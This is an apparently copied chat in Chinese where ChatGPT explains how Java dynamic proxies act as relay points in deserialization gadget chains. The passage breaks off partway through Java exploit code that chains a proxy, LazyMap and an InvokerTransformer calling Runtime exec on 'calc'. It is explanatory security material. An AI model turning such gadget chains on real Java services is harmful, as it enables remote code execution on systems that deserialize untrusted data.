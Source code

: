 

您说：
一般这里是作为一个转接点，转到另一个对象的可以利用的invoke
ChatGPT 说：
ChatGPT
非常对！在 Java 安全攻击链中，动态代理的 invoke 方法往往作为一个“转接点”，将调用继续转发到另一个对象的 invoke 方法或者可利用的方法。这种转接特性是动态代理被滥用的关键，使攻击链可以通过复杂的调用路径绕过普通防护。

动态代理作为攻击链的转接点
1. 动态代理的“转接”特性
在动态代理中：

代理对象的方法调用被拦截并转发到 InvocationHandler.invoke。
在 invoke 方法内部，可以通过调用另一个对象的方法（或者另一个代理对象的 invoke），实现调用链的转移。
这种机制可以用来构造攻击链，将代码执行的路径从一个对象转发到另一个对象，使得最终链条中一些不直接可利用的方法（如 toString、hashCode 等）变得可利用。

2. 攻击链中的动态代理转接示例
在很多反序列化攻击链中，动态代理的 invoke 方法经常被用作跳板，将方法调用转发到其他对象（如 LazyMap 或恶意的 Transformer）。

示例攻击链：动态代理 -> LazyMap
下面是一个简化的攻击链示例：

使用动态代理对象拦截方法调用。
在 invoke 方法中，将方法调用转发到一个 LazyMap。
LazyMap 内部通过恶意的 Transformer 执行代码。
代码演示
java
复制代码
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class ProxyToLazyMapExploit {
    public static void main(String[] args) throws Exception {
        // Step 1: 构造一个恶意的 Transformer
        Transformer transformer = new InvokerTransformer(
                "exec",                               // 调用 Runtime.getRuntime().exec
                new Class[]{String.class},
                new Object[]{"calc"}                 // 执行计算器
        );

        // Step 2: 构造 LazyMap，并绑定恶意 Transformer
        Map innerMap = new HashMap();
        Map lazyMap = LazyMap.decorate(innerMap, transformer);

        // Step 3: 创建动态代理，转接 LazyMap 的调用
        Map proxyMap = (Map) Proxy.newProxyInstance(
                Map.class.getClassLoader(),
                new Class[]{Map.class},
                new ProxyInvocationHandler(lazyMap)   // 转接点
        );
